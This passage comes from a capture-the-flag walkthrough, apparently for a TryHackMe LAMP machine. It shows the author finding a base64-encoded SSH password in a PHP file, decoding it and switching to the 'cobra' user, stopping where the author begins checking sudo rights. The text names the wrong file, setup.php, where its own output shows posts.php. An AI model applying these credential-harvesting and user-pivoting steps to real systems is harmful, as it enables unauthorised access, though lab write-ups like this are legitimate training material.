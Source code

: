 ## Root access

I decided to revisit the `.bash_history` file of the challenger user, where I noticed mentions of two scripts: `setup.php` and `posts.php`. I plan to take a closer look at these files to see if they contain any useful information or can aid in further system escalation.

```bash
challenger@thm-lamp:~$ find / -type f -name "setup.php" 2>/dev/null
/var/www/notes/api/setup.php
challenger@thm-lamp:~$ cd /var/www/notes/api
challenger@thm-lamp:/var/www/notes/api$ ls
add_post.php  delete_post.php  index.php  logout.php  setup.php
config.php    edit_post.php    login.php  posts.php
challenger@thm-lamp:/var/www/notes/api$ cat setup.php
cat: setup.php: Permission denied
challenger@thm-lamp:/var/www/notes/api$ cat posts.php
<?php
session_start();
require 'config.php';
header('Content-Type: application/json');
if (isset($_SESSION['username'])) {
    $posts = 'W3sidGl0bGUiOiJUby1kbyBsaXN0IiwiY29udGVudCI6IkRlZmluZSBhcHAgcmVxdWlyZW1lbnRzOjxicj4gMS4gRGVzaWduIHVzZXIgaW50ZXJmYWNlLiA8YnI+IDIuIFNldCB1cCBkZXZlbG9wbWVudCBlbnZpcm9ubWVudC4gPGJyPiAzLiBJbXBsZW1lbnQgYmFzaWMgZnVuY3Rpb25hbGl0eS4ifSx7InRpdGxlIjoiTXkgU1NIIGxvZ2luIiwiY29udGVudCI6ImNvYnJhIFwvIG16NCVvN0JHdW0jVFR1In1d';
    echo base64_decode($posts);

} else {
  echo json_encode(array('error' => 'Not logged in'));
}
?>
```

In the `setup.php` file, I noticed an encoded string, which I decided to decode using `CyberChef`. After decoding, I obtained some very interesting data

```
[{"title":"To-do list","content":"Define app requirements:<br> 1. Design user interface. <br> 2. Set up development environment. <br> 3. Implement basic functionality."},{"title":"My SSH login","content":"cobra \/ mz4%o7BGum#TTu"}]

```
After decoding the string in the `setup.php` file, I obtained the SSH login credentials for the `cobra` user:

`"My SSH login","content":"cobra \/ mz4%o7BGum#TTu"`

I decided to switch the user using the `su` command and log in with the obtained credentials.

```console
challenger@thm-lamp:/var/www/notes/api$ su cobra
Password: 
cobra@thm-lamp:/var/www/notes/api$ 
```
I gained access to the system as the `cobra` user. I am now verifying whether this user has permissions to execute the `sudo -l` command to check what operations they can perform with administrator privileges.
